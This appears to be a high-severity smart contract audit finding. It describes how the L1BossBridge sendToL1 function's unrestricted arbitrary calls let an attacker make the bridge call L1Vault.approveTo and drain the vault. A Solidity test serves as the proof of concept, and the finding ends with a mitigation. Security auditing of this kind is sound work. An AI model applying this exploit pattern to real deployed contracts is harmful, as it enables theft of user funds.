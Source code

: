 ### [H-4] `L1BossBridge::sendToL1` allowing arbitrary calls enables users to call `L1Vault::approveTo` and give themselves infinite allowance of vault funds

The `L1BossBridge` contract includes the `sendToL1` function that, if called with a valid signature by an operator, can execute arbitrary low-level calls to any given target. Because there's no restrictions neither on the target nor the calldata, this call could be used by an attacker to execute sensitive contracts of the bridge. For example, the `L1Vault` contract.

The `L1BossBridge` contract owns the `L1Vault` contract. Therefore, an attacker could submit a call that targets the vault and executes its `approveTo` function, passing an attacker-controlled address to increase its allowance. This would then allow the attacker to completely drain the vault.

It's worth noting that this attack's likelihood depends on the level of sophistication of the off-chain validations implemented by the operators that approve and sign withdrawals. However, we're rating it as a High severity issue because, according to the available documentation, the only validation made by off-chain services is that "the account submitting the withdrawal has first originated a successful deposit in the L1 part of the bridge". As the next PoC shows, such validation is not enough to prevent the attack.

To reproduce, include the following test in the `L1BossBridge.t.sol` file:

```javascript
function testCanCallVaultApproveFromBridgeAndDrainVault() public {
    uint256 vaultInitialBalance = 1000e18;
    deal(address(token), address(vault), vaultInitialBalance);

    // An attacker deposits tokens to L2. We do this under the assumption that the
    // bridge operator needs to see a valid deposit tx to then allow us to request a withdrawal.
    vm.startPrank(attacker);
    vm.expectEmit(address(tokenBridge));
    emit Deposit(address(attacker), address(0), 0);
    tokenBridge.depositTokensToL2(attacker, address(0), 0);

    // Under the assumption that the bridge operator doesn't validate bytes being signed
    bytes memory message = abi.encode(
        address(vault), // target
        0, // value
        abi.encodeCall(L1Vault.approveTo, (address(attacker), type(uint256).max)) // data
    );
    (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

    tokenBridge.sendToL1(v, r, s, message);
    assertEq(token.allowance(address(vault), attacker), type(uint256).max);
    token.transferFrom(address(vault), attacker, token.balanceOf(address(vault)));
}
```

Consider disallowing attacker-controlled external calls to sensitive components of the bridge, such as the `L1Vault` contract.
